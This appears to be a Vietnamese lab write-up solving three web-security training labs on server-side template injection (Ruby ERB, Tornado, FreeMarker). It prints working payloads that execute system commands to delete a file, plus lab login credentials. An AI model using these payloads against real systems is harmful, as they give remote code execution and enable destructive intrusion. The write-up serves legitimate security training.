










# __Lab: Basic server-side template injection__

Access lab, mục tiêu của bìa là xóa file `morale.txt` từ thư mục home của carlos. Ở đây lỗ hổng SSTI xuất hiện khi xem thông tin của sản phẩm đầu tiên. Vì dây là 1 hệ thống build dựa trên Ruby sử dụng cấu trúc `<%=...%>`



Nhận thấy xuất hiện 36. Gọi hệ thống để xóa file bằng `system("rm /home/carlos/morale.txt")` Send nhận về true và hoàn thành bài lab




# __Lab: Basic server-side template injection (code context)__

Access lab, mục tiêu của bài là xóa file `morale.txt` từ thư mục home của carlos. Đăng nhập bằng account `wiener:peter`. Ở đây lab xuất hiện lỗ hổng SSTI dưới dạng hiển thị tên khi post 1 comment bất kì 



Thử sửa đổi giá trị của `author-display` thành 1 payload thử như {{6*6}}



Khi này tên hiển thị cho comment sẽ là 



Bị Thừa ra `{{}}` biết được cấu trúc là được build trên python hoặc php. Tuy nhiên khi sử dụng trực tiếp payload `os.system('rm /home/carlos/morale.txt')` .
Nhận được về thông báo 



Là do hệ thống chưa sở hữu cấu trúc để gọi lệnh hệ thống và vì backend chạy Python sử dụng template engine Tornado nên có thể dùng lệnh ``
. Tạo thành 1 payload hoàn chỉnh `user.name}}{{os.system('rm /home/carlos/morale.txt')`



Send và hoàn thành bài lab




# __Lab: Server-side template injection using documentation__

Access lab, mục tiêu của bài là xóa file `morale.txt` từ thư mục home của carlos. Đăng nhập bằng account `content-manager:C0nt3ntM4n4g3r`. Khi edit 1 post bất kì nhận thấy các giá trị đang được để dưới dạng `${...}`



Xác định được cấu trúc sử dụng là java thu ${6*6}



Khỉ thử dùng lệnh gọi hệ thống để xóa file nhận được dữ liệu DEBUG hiển thị

```
DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> system [in template "freemarker" at line 5, column 18] ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing</#if>. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${system("rm /home/carlos/morale.txt")} [in template "freemarker" at line 5, column 16] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.UnexpectedTypeException.newDescriptionBuilder(UnexpectedTypeException.java:85) at freemarker.core.UnexpectedTypeException.<init>(UnexpectedTypeException.java:63) at freemarker.core.NonMethodException.<init>(NonMethodException.java:74) at freemarker.core.MethodCall._eval(MethodCall.java:67) at freemarker.core.Expression.eval(Expression.java:101) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58) at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42) at lab.actions.common.Action.act(Action.java:57) at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23)
```

Lỗ hổng này đã được ghi rõ trong 1 bìa post của @albinowax's exploit.
Sử dụng `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }` làm payload và send và hoàn thành bài lab


# __